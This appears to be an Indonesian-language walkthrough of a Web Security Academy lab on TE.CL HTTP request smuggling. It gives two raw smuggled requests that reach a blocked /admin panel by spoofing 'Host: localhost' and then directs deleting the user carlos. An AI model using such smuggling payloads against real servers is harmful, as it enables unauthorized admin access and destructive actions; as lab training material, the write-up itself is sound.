





# Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

 Lab ini melibatkan server front-end dan back-end, dan server back-end tidak mendukung pengkodean chunked. Terdapat panel admin di `/admin` Namun, server front-end memblokir akses ke sana.

Untuk menyelesaikan lab ini, selundupkan permintaan ke server back-end yang mengakses panel admin dan menghapus pengguna. carlos.


## 1

Cobalah berkunjung `/admin` dan perhatikan bahwa permintaan tersebut diblokir. 

Dengan menggunakan Burp Repeater, kirimkan permintaan berikut dua kali: 

```bash
POST / HTTP/1.1
Host: 0a0900c40436988680bab7df007a0092.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

> Anda perlu menyertakan urutan akhir. `\r\n\r\n` setelah final 0





Perhatikan bahwa permintaan yang digabungkan ke `/admin` Ditolak karena tidak menggunakan header `Host: localhost`

## 2

Kirimkan permintaan berikut dua kali: 

```bash
POST / HTTP/1.1
Host: 0a0900c40436988680bab7df007a0092.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```






Perhatikan bahwa Anda sekarang dapat mengakses panel admin.

Dengan menggunakan respons sebelumnya sebagai referensi, ubah URL permintaan yang diselundupkan menjadi hapus. carlos



